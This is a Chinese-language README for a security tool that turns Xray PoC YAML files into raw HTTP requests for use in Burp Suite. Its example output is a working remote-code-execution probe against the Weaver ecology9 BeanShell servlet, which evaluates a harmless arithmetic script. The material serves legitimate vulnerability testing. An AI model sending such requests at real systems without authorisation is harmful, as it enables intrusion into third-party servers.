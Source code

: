 # yaml2http

一个将`Xray`的`Poc`转换成`http`请求明文的小工具，便于在`Burp Suite`一类的工具中使用。
与杜老师交流`Poc`存储问题而引出的产物，采用了一个简易版的基于`Xray`的`Poc`标准，它只支持描述`http`协议。目前功能尚不完善，还在开发中...

## Usage

当`Poc`的请求结构中包含不可打印字符时，推荐以插件形式载入`Poc`至`Burp Suite`中使用。

### CLI

运行

```bash
java -jar yaml2http-1.0.jar -p poc-yaml-ecology9-beanshell-rce.yaml
```

输出如下

```http
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36 Edg/104.0.1293.47
Connection: close
Host: localhost
Content-Length: 87

bsh.script=print%2842503*40455%29&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

帮助信息

```bash
java -jar yaml2http-1.0.jar -h
usage: yaml2http
 -b,--bytes <arg>   Path to file need to be convert, convert the file
                    content as bytes value with b"" format.
 -h,--help          Help info.
 -p,--path <arg>    Path to poc file.
```

### Burp Suite Extension

支持在`Burp Suite`中以插件形式进行使用，这种方式可以避免不可打印字符的问题。

使用方式，从`Extender`导入下载或编译的`jar`包

![](images/20220823113410.png)

进入`Repeater`页面，鼠标右键打开菜单并选择`Extension -> Yaml Poc Loader -> Import`，并选择需要载入的文件

![](images/20220823113616.png)

加载完成后如下，默认指定`localhost:80`作为目标。

![](images/20220823113627.png)

## Build

克隆源码到本地

```bash
git clone https://github.com/trganda/yaml2http
```

并执行

```bash
cd yaml2http
mvn clean compile assembly:single
```

之后可在`target`目录下查看编译后的`jar`包文件

## Todo

* [X] 完成`yaml`解析，读取已支持字段值
* [X] 完成变量定义外的`http`文本转换
* [X] 完成变量定义和表达式解析（已初步完成主体框架，后续补充方法功能即可）
* [ ] 完成`Content-Type`自识别（但`body`数据过段会引起判断失误，推荐`poc`中自行指定）
* [x] 完成变量定义字段其他方法的支持

